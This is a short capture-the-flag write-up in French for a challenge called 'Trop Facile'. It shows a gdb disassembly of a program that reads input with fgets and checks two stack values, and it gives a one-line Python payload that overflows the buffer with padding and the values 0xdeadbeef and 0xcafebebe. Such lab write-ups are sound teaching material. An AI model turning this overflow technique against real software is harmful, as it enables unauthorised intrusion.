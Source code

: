 # Trop Facile

<img src="trop_facile.png" alt="trop_facile" width="400"/>

## `gdb compromis` :
```
   0x000000000040170b <+38>:    movl   $0xdeadbeef,-0x4(%rbp)
   0x0000000000401712 <+45>:    movl   $0xcafebebe,-0x8(%rbp)
   0x0000000000401719 <+52>:    mov    0xbbfb8(%rip),%rdx        # 0x4bd6d8 <stdin>
   0x0000000000401720 <+59>:    lea    -0x30(%rbp),%rax
   0x0000000000401724 <+63>:    mov    $0x31,%esi
   0x0000000000401729 <+68>:    mov    %rax,%rdi
   0x000000000040172c <+71>:    callq  0x40a910 <fgets>
   0x0000000000401731 <+76>:    cmpl   $0xcafebebe,-0x4(%rbp)
   0x0000000000401738 <+83>:    jne    0x401772 <main+141>
   0x000000000040173a <+85>:    cmpl   $0xdeadbeef,-0x8(%rbp)
   0x0000000000401741 <+92>:    jne    0x401772 <main+141>
```
## Solution

il suffit donc de modifier les valeurs de la stack aux positions %rbp -0x4 et -0x8

avec une longue string on peut override ces valeur par buffer overflow, vu que le buffer se trouve en %rbd -0x30

il reste a ecrire les valeurs au bon formats, dans le bon ordre : '\xef\xbe\xad\xde\xbe\xbe\xfe\xca'

`sys.stdout.buffer.write(b'a'*40 + b'\xef\xbe\xad\xde\xbe\xbe\xfe\xca' + b'\n')`